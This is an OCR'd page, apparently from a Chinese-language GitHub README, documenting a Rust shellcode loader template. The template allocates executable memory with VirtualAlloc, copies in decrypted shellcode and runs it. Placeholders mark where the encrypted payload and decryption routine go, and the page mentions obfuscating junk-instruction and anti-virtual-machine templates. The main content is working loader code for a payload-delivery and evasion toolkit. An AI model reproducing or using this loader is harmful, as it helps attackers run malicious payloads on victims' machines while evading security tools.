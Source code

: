 加载代码：

加载代码是唯一需要写main函数的模板，解密函数用`#encryption#`代替，输入字节内容用`#encryption_shellcode#`代替

```rust
use std::ptr::null_mut;
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::winnt::{MEM_COMMIT, PAGE_EXECUTE_READWRITE};

/// 分配可执行内存并运行 base
unsafe fn execute_base(base: &[u8]) {
    // 分配可执行内存
    let exec_mem = VirtualAlloc(
        null_mut(),
        base.len(),
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE,
    );

    if exec_mem.is_null() {
        panic!("Failed to allocate executable memory");
    }

    // 将 base 拷贝到分配的内存中
    std::ptr::copy_nonoverlapping(base.as_ptr(), exec_mem as *mut u8, base.len());

    // 创建指向 base 的函数指针
    let base_fn: extern "C" fn() = std::mem::transmute(exec_mem);

    // 执行 base
    base_fn();
}

fn main() {
    println!("Decoding and executing base...");

    let base_en: &[u8] =#encryption_shellcode#;
    // 解码 Base64 base
    let base = #encryption#(base_en);

    // 执行 base
    unsafe {
        execute_base(&base);
    }
}
```

#### 花指令模板和反虚拟机模板

需要导入`cargo.toml`的除项目信息内容

例：

```toml
[dependencies]
rand = "0.8"  # 添加 rand crate 来支持随机数生成
```
